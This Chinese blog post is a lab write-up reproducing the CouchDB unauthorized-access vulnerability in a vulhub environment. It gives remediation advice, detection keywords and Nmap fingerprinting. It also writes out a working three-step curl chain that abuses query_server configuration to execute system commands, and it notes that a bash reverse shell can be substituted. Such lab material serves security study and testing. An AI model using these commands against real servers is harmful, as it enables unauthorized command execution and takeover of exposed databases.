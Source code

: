 ```yaml
---
layout:     post
title:      CouchDB 未授权访问漏洞
subtitle:   未授权访问漏洞
date:       2019-10-10
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 漏洞复现
    - 未授权漏洞
---
```

# 漏洞介绍
* 漏洞名称：CouchDB 未授权访问漏洞
* CVE编号：SSV-91597
* 发布时间：2016-05-19
* 漏洞说明：CouchDB 是一个开源的面向文档的数据库管理系统，可以通过 RESTful JavaScript Object Notation (JSON) API 访问。CouchDB会默认会在5984端口开放Restful的API接口，用于数据库的管理功能。CouchDB允许用户指定一个二进制程序或者脚本，与CouchDB进行数据交互和处理，通过一个未授权访问的CouchDB，通过修改其query_server配置，来执行系统命令。
* 影响范围：全版本
* 修复建议：1、指定CouchDB绑定的IP （需要重启CouchDB才能生效） 在 /etc/couchdb/local.ini 文件中找到 “bind_address = 0.0.0.0” ，把 0.0.0.0 修改为 127.0.0.1 ，然后保存。注：修改后只有本机才能访问CouchDB。 2、设置访问密码 （需要重启CouchDB才能生效） 在 /etc/couchdb/local.ini 中找到“[admins]”字段配置密码。
# 0x00 环境配置
靶场环境使用vulhub来搭建，从下图可以看到CouchDB在5984端口上运行了：

![图片](../../../../img/couchdb_unauth_1.png)

# 0x01 漏洞复现
如下图所示，直接访问，可以看到欢迎信息和版本号：

![图片](../../../../img/couchdb_unauth_2.png)

访问[http://ip:5984/_config](http://192.168.18.129:5984/_config)，可以通过该页面中的关键字来判断该漏洞是否存在：

![图片](../../../../img/couchdb_unauth_3.png)

关键字如下：

```
httpd_design_handlers
external_manager
replicator_manager
```
访问[http://ip:5984/_utils/](http://10.20.40.96:5984/_utils/)是CouchDB Web界面：

![图片](../../../../img/couchdb_unauth_4.png)

## 执行系统命令
作为攻击者就一定要把漏洞充分利用，可以通过CouchDB 未授权访问漏洞来执行任意系统命令，具体代码如下，分为三步：

```
1、新增query_server配置，写入要执行的命令；
curl -X PUT 'http://username:password@your-ip:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
 
2、新建一个临时库和临时表，插入一条记录；
curl -X PUT 'http://username:password@your-ip:5984/vultest'
curl -X PUT 'http://username:password@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
 
3、调用query_server处理数据
curl -X POST 'http://username:password@your-ip:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'
```
我执行的命令是Ping dnslog平台，DNSlog平台也成功收到了请求，想要反弹shell也是可以的，修改第一步中的命令为bash 反弹shell就可以：

![图片](../../../../img/couchdb_unauth_5.png)

![图片](../../../../img/couchdb_unauth_6.png)

# 0x02 指纹
CouchDB 未授权访问漏洞的发现需要提前做一次端口扫描，下图就是Nmap对CouchDB应用的识别：

![图片](../../../../img/couchdb_unauth_7.png)

# 0x03 总结
一开始打算使用Vulhub给的exp.py的脚本，搞了半天没反弹成功，因此还是使用curl命令来执行任意命令，curl还是很给力的，给自己布置下作业，学一学curl的命令。

